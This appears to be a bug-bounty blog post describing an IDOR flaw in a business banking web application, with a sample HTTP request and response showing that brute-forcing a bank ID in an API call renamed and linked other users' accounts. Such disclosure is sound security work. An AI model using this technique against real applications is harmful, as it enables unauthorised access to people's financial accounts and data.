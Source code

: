 ```yaml
---
title: "Insecure Direct Object References (IDOR) Exploit Enables Unauthorized Access to Linked Bank Accounts"
layout: post
date: 2022-10-10 12:00
categories: blog
---
```


Exploiting an Insecure Direct Object References (IDOR) vulnerability to gain control over other users' linked bank accounts.

![preview](/assets/images/blogs/IDOR/access-control.svg)

## Target Information

The target is a web application designed to facilitate invoice tracking, bill payment, and other transactions for organizations. It functions as a business banking application.

## Reconnaissance

Upon examining the application's features, it was determined that the application is susceptible to an Insecure Direct Object References (IDOR) vulnerability. The vulnerability arises due to the application's reliance on user-provided input in the URL and JSON objects within the request body to perform actions on its APIs.

## Exploitation

Several endpoints were exploited to gain unauthorized access to other organizations' users' invoices, transaction details, and bills.

A noteworthy feature of the application allows users to link their bank accounts within the application. Upon merging accounts, the application generates a virtual bank account, such as the "ABC Virtual Bank Account" from "ABC Internet Bank."

To facilitate easy identification of bank account details, the application offers a feature allowing users to rename their accounts with nicknames. The following request demonstrates this functionality:

## Request

```http
PUT /connected_banking/12345 HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
	"bankid": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000
}
```

## Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
	"abc_account_id": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000,
	"current_balance": 10000.00
}
```
The above request illustrates that the application utilizes the bank ID from the URL and the JSON object in the request body. By brute-forcing the `bankid`, I was able to change the nicknames of other users' bank accounts.

The IDOR vulnerability did not end there. Whenever I modified the nickname of users' bank accounts, those accounts became linked to my "ABC Virtual Bank Account." Consequently, I gained access to the bank account details, balances, transactions, and other information of these users.

Thank you for reading.

Follow me on Twitter: [thevillagehacker](https://twitter.com/thevillagehackr)